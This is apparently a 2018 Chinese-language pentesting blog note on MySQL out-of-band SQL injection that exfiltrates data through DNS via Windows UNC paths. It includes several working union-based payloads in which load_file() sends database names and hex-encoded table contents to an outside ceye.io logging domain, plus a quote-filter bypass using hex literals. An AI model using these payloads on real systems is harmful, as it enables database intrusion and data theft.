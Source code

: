 ```yaml
---
title: OOB注入(DNS外传)
date: 2018-07-10 04:53:00 Z
---
```


#关于mysql OOB注入的研究
## 应用场景：


 1.注入点无回显，只能靠盲注，但盲注太慢又不想等 =_=.
 2.mysql （Mysql版本>=5.5.53 ）开启文件导入导出
   可以用该语句判断`show global variables like '%secure%';`
           如果secure_file_priv值为null,则未开启，如果为空，则开启；如果为目录，说明只能导入导出该文件夹下内容。
 3.目标是windows系统（UNC路径） 基本利用语句：
'union select 1,load_file(concat('\\\\',(database()),'.g8vbmp.ceye.io\\abc')),3;'
---
##为什么要这样写？：
1.在windows下，可以使用以下语句来访问UNC路径，即请求网络上的资源（主要在局域网中）**\\server\\resource**  又因为'\'为转义字符，需要重复输入达到转义自身的目的。***'\\\\' -->'\\'***
2.load_file()函数可以访问计算机上的资源，也可以请求UNC路径，如果将需要查询的数据拼接到UNC路径当中，那么数据可以凭借服务器对特定资源的请求而被外带出去。
3.既然数据已经有了外传的途径，那么只需在包含了数据的请求传输途中做手脚即可。服务器通信的基础是IP,而DNS提供了域名->IP的解析服务，我们将数据拼接在了域名中，DNS服务器势必就会接触到数据，所以数据外传的关键就是DNS。架设一台我们可控的DNS服务器并监听记录下传来的请求就能获取数据。
     附图一张，简述原理。
![Image.jpg](https://i.loli.net/2018/07/09/5b43474f61f4f.jpg)
####   PS:此处假设有3个字段，2为输出点，g8......为ceye.io申请的域名，database()处即为需要外传的查询语句。
#### PSS:很奇怪的是，version()可以外传，但user()却不能，一张包含title,content字段的表，只有title可以外传，content同样不行。
     ----
     经过摸索，初步得出结论，外传的数据中如果含有空格或特殊字符则无法外传。可以考虑hex。
     测试语句：
'1.union select 1,load_file(concat("\\\\",(select hex(content) from pentest.news limit 1,1),'.g8vbmp.ceye.io\\abc')),3'
'2.id =(case when (1=1) then (select load_file(concat('\\\\',(select database()),'.g8vbmp.ceye.io\\qw'))) else 1*(select 1 from dual union select 2 from dual) end);'

可以绕过单双引号过滤的语句：
id =11 union select 1,load_file(concat(0x5c5c,(select hex(content) from pentest.news limit 1,1),0x2e6675636b6766772e636579652e696f5c5c61626378)),3;

'''
奇怪的是，这些语句只能用一次，第二次再使用就失效了
